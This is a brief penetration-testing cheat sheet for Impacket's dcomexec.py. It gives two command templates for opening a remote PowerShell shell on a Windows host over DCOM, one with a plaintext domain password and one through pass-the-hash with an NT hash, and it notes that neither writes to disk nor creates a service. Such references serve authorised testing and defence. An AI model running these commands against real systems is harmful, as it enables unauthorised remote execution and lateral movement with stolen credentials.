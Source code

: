 # dcomexec (imp)

% windows, impacket-exec, dcom

## dcomexec
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  
Execute a command shell without touching the disk or running a new service using DCOM

```
dcomexec.py -shell-type powershell '<domain_fqdn>/<user>:<password>'@<ip>
```

## pth 
#plateform/linux #target/remote #port/135 #protocol/wmi #cat/ATTACK/CONNECT  

Execute a command shell without touching the disk or running a new service using DCOM

```
dcomexec.py -shell-type powershell -hashes <nt_hash> <user>@<ip>
```
